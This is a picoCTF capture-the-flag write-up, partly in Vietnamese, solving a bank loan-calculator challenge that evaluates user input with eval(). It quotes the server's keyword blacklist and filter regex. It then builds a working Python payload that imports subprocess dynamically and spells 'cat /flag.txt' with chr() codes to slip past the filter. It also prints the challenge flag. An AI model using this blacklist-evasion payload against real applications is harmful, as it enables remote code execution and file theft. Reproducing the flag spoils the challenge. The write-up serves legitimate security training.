




# Overview 
Category: [Web Exploitation]()

AUTHOR: Theoneste Byagutangaza

# Description
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?
Additional details will be available after launching your challenge instance.

# Solution
- Trang web ngân hàng sử dụng hàm eval() tính toán , tìm cách tận dụng hàm này để RCE



- Thử với payload os :



- Server đã thực hiện filter . Thật vậy a dev đã comment những gì filter ở mã nguồn 



- Filter những từ : os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind 

- Regex mà hệ thống sử dụng:

```python
r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

>0x[0-9A-Fa-f]+: Nhận diện các giá trị hex (ví dụ: 0xdeadbeef).

>\\\u[0-9A-Fa-f]{4}: Nhận diện mã Unicode (ví dụ: \u1234).

>%[0-9A-Fa-f]{2}: Nhận diện mã URL encoding (ví dụ: %20).

>\\.[A-Za-z0-9]{1,3}\b: Nhận diện các tên tệp hoặc phần mở rộng (ví dụ: .com, .py, .exe).

>[\\\\\\\/] : Nhận diện ký tự / hoặc \, dùng trong đường dẫn tệp.

>\\.\\. : Nhận diện chuỗi .., thường dùng trong tấn công Directory Traversal.

-  Ta sẽ sử dụng mô-đun subprocess mà không bị phát hiện bởi các danh sách đen (blacklist)
```python 
__import__('subprocess')
```

- Dựa vào hint : "You might need encoding or dynamic construction to bypass restrictions". Ta tránh việc gọi trực tiếp subprocess.check_output() bằng cách sử dụng getattr(), truy cập động hàm này.
```python
getattr(__import__('subprocess'), 'check_output')
```

- Mã hóa lệnh bằng cách sử dụng chr() khiến các bộ lọc không thể nhận diện chuỗi này.
```python
chr(99) + chr(97) + chr(116)  # Tạo ra "cat"
chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)  # Tạo ra "/flag.txt"
```

- Payload hoàn thiện :
```python
getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```
- Payload được thực thi và thành công lấy được flag:



>Flag : **picoCTF{D0nt_Use_Unsecure_f@nctions0efe84e3}**